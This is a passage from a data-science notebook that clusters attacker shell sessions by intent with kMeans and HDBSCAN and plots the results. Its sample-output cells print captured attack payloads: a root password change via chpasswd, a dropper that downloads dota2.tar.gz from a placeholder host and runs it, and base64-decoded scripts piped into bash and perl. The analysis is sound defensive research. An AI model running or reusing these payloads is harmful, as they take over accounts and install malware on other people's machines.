plt.suptitle("kMeans - SVD-Filtered Wordcloud (k=7)", fontsize=20, y=0.98)
plt.show()

In [70]:
# Analisys of intents per cluster
# The original dataset contains a column 'Set_Fingerprint' that indicates the intent of the attack
# The goal is to see how the different intents are distributed across the clusters

analysis_df = dataSet.copy()

analysis_df['cluster'] = cl_labels

print(analysis_df[['Set_Fingerprint', 'cluster']].head())

                Set_Fingerprint  cluster
0  [Defense Evasion, Discovery]        2
1  [Defense Evasion, Discovery]        2
2  [Defense Evasion, Discovery]        2
3  [Defense Evasion, Discovery]        2
4  [Defense Evasion, Discovery]        2




In [74]:
import seaborn as sns
import matplotlib.pyplot as plt

# "Explode" the dataframe so each intent in the list gets its own row
exploded_df = analysis_df.explode('Set_Fingerprint')

# Create the crosstab from the exploded data
ctab_exploded = pd.crosstab(exploded_df['cluster'], exploded_df['Set_Fingerprint'])

# Plotting the more accurate heatmap
plt.figure(figsize=(14, 6))
sns.heatmap(ctab_exploded, annot=True, fmt="d", cmap="YlGnBu")
plt.title("Detailed Intent Distribution per Cluster")
plt.show()

## HDBSCAN

In [ ]:
# Trying HDBSCAN with hyperparameter tuning
import hdbscan
import numpy as np
import itertools

# Tuning min_cluster_size, min_samples and cluster_selection_epsilon
param_grid = {
    'min_cluster_size': [50, 250, 500],
    'min_samples': [20, 50, 100, 500, 800],
    'cluster_selection_epsilon': [0.001, 0.01, 0.1]
}

combinations = list(itertools.product(*param_grid.values()))
results = []
print(f"Starting Grid Search across {len(combinations)} combinations...")
# using as metric clusterer.relative_validity_ (DBCV)

# Subsampling for speed, but only for evaluation
np.random.seed(42)
eval_indices = np.random.choice(len(X_svd), size=10000, replace=False)
X_eval = X_svd[eval_indices]

for mcs, ms, cse in combinations:
    try:
        #  initialize and Fit
        clusterer = hdbscan.HDBSCAN(
            min_cluster_size=mcs,
            min_samples=ms,
            cluster_selection_epsilon=cse,
            core_dist_n_jobs=-1,
            prediction_data=True,
            memory='./hdbscan_cache'
        )
        cluster_labels = clusterer.fit_predict(X_svd)
        
        # calc Metric validity_index over X_eval
        validity = hdbscan.validity.validity_index(X_eval, cluster_labels[eval_indices])

        # actual number of clusters found (excluding outliers)
        n_clusters_found = len(set(cluster_labels)) - (1 if -1 in cluster_labels else 0)
        
        results.append({
            'min_cluster_size': mcs,
            'min_samples': ms,
            'cluster_selection_epsilon': cse,
            'n_clusters_found': n_clusters_found,
            'relative_validity': validity
        })
        print(f"Tested: MCS={mcs}, MS={ms}, CSE={cse} | Found: {n_clusters_found} | Validity: {validity:.4f}")
        
    except Exception as e:
        continue

# Convert to DataFrame for analysis
results_df = pd.DataFrame(results).sort_values(by='relative_validity', ascending=False)
print("\n--- Best HDBSCAN Configurations ---")
print(results_df.head(5))


Starting Grid Search across 45 combinations...


/home/gabrain/Desktop/PoliTo/ml4n/MachineLearningProject/notebooks/.venv/lib/python3.12/site-packages/hdbscan/validity.py:33: RuntimeWarning: invalid value encountered in divide
  result /= distance_matrix.shape[0] - 1
/home/gabrain/Desktop/PoliTo/ml4n/MachineLearningProject/notebooks/.venv/lib/python3.12/site-packages/hdbscan/validity.py:33: RuntimeWarning: invalid value encountered in divide
  result /= distance_matrix.shape[0] - 1


Tested: MCS=50, MS=20, CSE=0.1 | Found: 7 | Validity: 0.7251


/home/gabrain/Desktop/PoliTo/ml4n/MachineLearningProject/notebooks/.venv/lib/python3.12/site-packages/hdbscan/validity.py:33: RuntimeWarning: invalid value encountered in divide
  result /= distance_matrix.shape[0] - 1
/home/gabrain/Desktop/PoliTo/ml4n/MachineLearningProject/notebooks/.venv/lib/python3.12/site-packages/hdbscan/validity.py:33: RuntimeWarning: invalid value encountered in divide
  result /= distance_matrix.shape[0] - 1


Tested: MCS=50, MS=50, CSE=0.1 | Found: 8 | Validity: 0.2293


...

Tested: MCS=50, MS=100, CSE=0.01 | Found: 21 | Validity: nan
Tested: MCS=50, MS=100, CSE=0.1 | Found: 8 | Validity: 0.4467


/home/gabrain/Desktop/PoliTo/ml4n/MachineLearningProject/notebooks/.venv/lib/python3.12/site-packages/hdbscan/validity.py:33: RuntimeWarning: invalid value encountered in divide
  result /= distance_matrix.shape[0] - 1


Tested: MCS=50, MS=500, CSE=0.01 | Found: 12 | Validity: 0.4912
Tested: MCS=50, MS=500, CSE=0.1 | Found: 7 | Validity: 0.6155


/home/gabrain/Desktop/PoliTo/ml4n/MachineLearningProject/notebooks/.venv/lib/python3.12/site-packages/hdbscan/validity.py:33: RuntimeWarning: invalid value encountered in divide
  result /= distance_matrix.shape[0] - 1
/home/gabrain/Desktop/PoliTo/ml4n/MachineLearningProject/notebooks/.venv/lib/python3.12/site-packages/hdbscan/validity.py:33: RuntimeWarning: invalid value encountered in divide
  result /= distance_matrix.shape[0] - 1
/home/gabrain/Desktop/PoliTo/ml4n/MachineLearningProject/notebooks/.venv/lib/python3.12/site-packages/hdbscan/validity.py:407: RuntimeWarning: invalid value encountered in scalar divide
  (min_density_sep - density_sparseness[i]) /


Tested: MCS=50, MS=800, CSE=0.1 | Found: 11 | Validity: nan
Tested: MCS=250, MS=20, CSE=0.001 | Found: 22 | Validity: -0.2283
Tested: MCS=250, MS=20, CSE=0.01 | Found: 12 | Validity: 0.0450
Tested: MCS=250, MS=20, CSE=0.1 | Found: 6 | Validity: 0.5794
Tested: MCS=250, MS=50, CSE=0.001 | Found: 24 | Validity: -0.2151
Tested: MCS=250, MS=50, CSE=0.01 | Found: 13 | Validity: -0.2614
Tested: MCS=250, MS=50, CSE=0.1 | Found: 7 | Validity: 0.0851
Tested: MCS=250, MS=100, CSE=0.001 | Found: 19 | Validity: 0.2951
Tested: MCS=250, MS=100, CSE=0.01 | Found: 10 | Validity: 0.6065
Tested: MCS=250, MS=100, CSE=0.1 | Found: 7 | Validity: 0.3026
Tested: MCS=250, MS=500, CSE=0.001 | Found: 13 | Validity: 0.3262
Tested: MCS=250, MS=500, CSE=0.01 | Found: 9 | Validity: 0.5871
Tested: MCS=250, MS=500, CSE=0.1 | Found: 7 | Validity: 0.6155
Tested: MCS=250, MS=800, CSE=0.001 | Found: 10 | Validity: 0.3325
Tested: MCS=250, MS=800, CSE=0.01 | Found: 7 | Validity: 0.5512
Tested: MCS=250, MS=800, CSE=0.1 | Fou

In [6]:
for mcs in [50, 250, 500]:
    clusterer = hdbscan.HDBSCAN(
        min_cluster_size=mcs,
        min_samples=500,
        cluster_selection_epsilon=0.1,
        core_dist_n_jobs=-1,
        prediction_data=True,
        memory='./hdbscan_cache'
    ).fit(X_svd)
    
    noise_count = list(clusterer.labels_).count(-1)
    noise_percent = (noise_count / len(X_svd)) * 100
    print(f"Config MCS={mcs}: Noise = {noise_count} samples ({noise_percent:.2f}%)")

Config MCS=50: Noise = 463 samples (0.20%)
Config MCS=250: Noise = 463 samples (0.20%)
Config MCS=500: Noise = 463 samples (0.20%)


In [ ]:
import hdbscan
import numpy as np

# 1. Initialize with 'prediction_data=True'
clusterer = hdbscan.HDBSCAN(
    min_cluster_size=50, 
    min_samples=20, 
    prediction_data=True, # Enables approximate_predict
    cluster_selection_epsilon= 0.1,
    core_dist_n_jobs=-1   # Uses all CPU cores for distance math
)

# Fit on the full data
cl_labels = clusterer.fit_predict(X_svd)

In [ ]:
# Printing cluster details
import pandas as pd
import random
# Removing the truncation on long strings
pd.set_option('display.max_colwidth', None)
# printing to stdout samples from each cluster
n_clusters = len(set(cl_labels)) - (1 if -1 in cl_labels else 0)
print(f"Number of clusters found by HDBSCAN: {n_clusters}")
newDataSet['cluster'] = cl_labels
for i in range(n_clusters):
    print(f"\n--- Cluster {i} Details ---")
    cluster_data = newDataSet[newDataSet['cluster'] == i]

    # Printing payloads
    print("Payload Samples:")
    # Taking 10 random samples for each cluster
    if not cluster_data['decoded_payload'].empty:
        num_samples = min(10, len(cluster_data['decoded_payload']))
        samples = random.sample(list(cluster_data['decoded_payload']), num_samples)
        print(*samples, sep="\n---\n")
        print()
    else:
        print("No payload samples for this cluster.")

Number of clusters found by HDBSCAN: 7

--- Cluster 0 Details ---
Payload Samples:
cat /proc/cpuinfo | grep name | wc -l ; echo "root:fQT7ZnZmkAAt" | chpasswd | bash ; echo "321" > /var/tmp/.var03522123 ; rm -rf /var/tmp/.var03522123 ; cat /var/tmp/.var03522123 | head -n 1 ; cat /proc/cpuinfo | grep name | head -n 1 | awk '{print $4,$5,$6,$7,$8,$9 ; }' ; free -m | grep Mem | awk '{print $2 ,$3, $4, $5, $6, $7}' ; ls -lh $(which ls) ; which ls ; crontab -l ; w ; uname -m ; cat /proc/cpuinfo | grep model | grep name | wc -l ; top ; uname ; uname -a ; lscpu | grep Model ; echo "root yunpai" > /tmp/up.txt ; rm -rf /var/tmp/dota* ; cat /var/tmp/.systemcache436621 ; echo "1" > /var/tmp/.systemcache436621 ; cat /var/tmp/.systemcache436621 ; sleep 15s && cd /var/tmp ; echo "#!/bin/bash
cd /tmp	
rm -rf .ssh
rm -rf .mountfs
rm -rf .X13-unix
rm -rf .X17-unix
rm -rf .X19-unix
mkdir .X19-unix
cd .X19-unix
mv /var/tmp/dota3.tar.gz dota3.tar.gz
tar xf dota3.tar.gz
sleep 3s && cd /tmp/.X19-unix/.rsync



In [8]:
from sklearn.manifold import TSNE
import matplotlib.pyplot as plt
import seaborn as sns
import numpy as np

# displaying clusters with t-SNE
sample_size = min(10000, len(X_svd))
np.random.seed(42)
indices = np.random.choice(len(X_svd), size=sample_size, replace=False)
X_sample = X_svd[indices]
labels_sample = cl_labels[indices]

# t-SNE
tsne = TSNE(n_components=2, perplexity=30, random_state=42, init='pca', learning_rate='auto')
X_tsne = tsne.fit_transform(X_sample)
# visualizaton
plt.figure(figsize=(12, 8))
palette = sns.color_palette("bright", 8)
sns.scatterplot(
    x=X_tsne[:, 0], y=X_tsne[:, 1],
    hue=labels_sample,
    palette=palette,
    legend='full',  
    alpha=0.6,
    s=60,
    edgecolor='white',
    linewidth=0.5
)

plt.legend(
    title="Attack Clusters",
    bbox_to_anchor=(1.02, 1), 
    loc='upper left', 
    borderaxespad=0,
    fontsize=10,
    ncol=1 
)

plt.title('HDBSCAN - t-SNE View of Attack Clusters', fontsize=15)
plt.xlabel('t-SNE Dimension 1')
plt.ylabel('t-SNE Dimension 2')
plt.grid(True, linestyle=':', alpha=0.4)
plt.tight_layout()
plt.savefig('tsne_clusters_hdbscan.png')
plt.show()

In [ ]:
# Printing some outliers
outliers = newDataSet[newDataSet['cluster'] == -1]
print(f"Number of outliers detected by HDBSCAN: {len(outliers)}")
print("Some outlier payload samples:")
num_samples = min(20, len(outliers))
samples = random.sample(list(outliers['decoded_payload']), num_samples)
print(*samples, sep="\n---\n")

Number of outliers detected by HDBSCAN: 50
Some outlier payload samples:
cd /var/tmp ; echo "#!/bin/bash
cd /tmp
rm -rf .X15-unix
mkdir .X15-unix
cd .X15-unix
pkill -9 cron > .out
wget -q http://IP_ADDRESS/dota2.tar.gz || curl -O -f http://IP_ADDRESS/dota2.tar.gz
sleep 7s && tar xf dota2.tar.gz
#rm -rf dota2.tar.gz
cd .rsync
chmod 777 *
cd /tmp/.X15-unix/.rsync/a && ./cron || ./anacron
exit 0">.#!/bin/bash

cd /tmp || /var/tmp || /dev/shm

rm -rf .varcache*

echo "..." > .varcache
base64 --decode .varcache | perl
rm -rf .varcache*
exit 0 ; base64 --decode .threatstackcloudsecops | bash ; cat /proc/cpuinfo | grep name | wc -l ; echo -e "redhat\ndWIPIOTF539A\ndWIPIOTF539A" | passwd | bash ; echo "redhat\ndWIPIOTF539A\ndWIPIOTF539A\n" | passwd ; echo "321" > /var/tmp/.var03522123 ; rm -rf /var/tmp/.var03522123 ; cat /var/tmp/.var03522123 | head -n 1 ; cat /proc/cpuinfo | grep name | head -n 1 | awk '{print $4,$5,$6,$7,$8,$9 ; }' ; free -m | grep Mem | awk '{print $2 ,$3, $4, $5, $6, $7}' 















In [ ]:
# wordclouds for HDBSCAN clusters
from wordcloud import WordCloud
import matplotlib.pyplot as plt
for i in range(n_clusters):
    cluster_data = newDataSet[newDataSet['cluster'] == i]
    text = " ".join(cluster_data['decoded_payload'].tolist())
    
    # for word, we use the same token pattern as before
    tokens = re.findall(token_pattern, text)
    filtered_text = " ".join(tokens)
    wordcloud = WordCloud(width=800, height=400, background_color='white').generate(filtered_text)
    
    plt.figure(figsize=(10, 5))
    plt.imshow(wordcloud, interpolation='bilinear')
    plt.axis('off')

















